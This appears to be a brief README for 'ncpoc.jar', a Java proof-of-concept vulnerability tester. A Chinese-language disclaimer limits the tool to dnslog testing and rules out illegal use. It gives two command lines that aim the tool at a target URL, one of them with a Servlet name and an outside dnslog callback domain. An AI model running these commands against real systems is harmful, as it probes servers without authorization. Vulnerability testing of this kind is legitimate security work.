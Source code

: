 此工具仅能dnslog漏洞测试，不可用于非法用途

```
java -jar ncpoc.jar http://target.com
java -jar ncpoc.jar http://target.com Servlet xxx.dnslog.cn
```
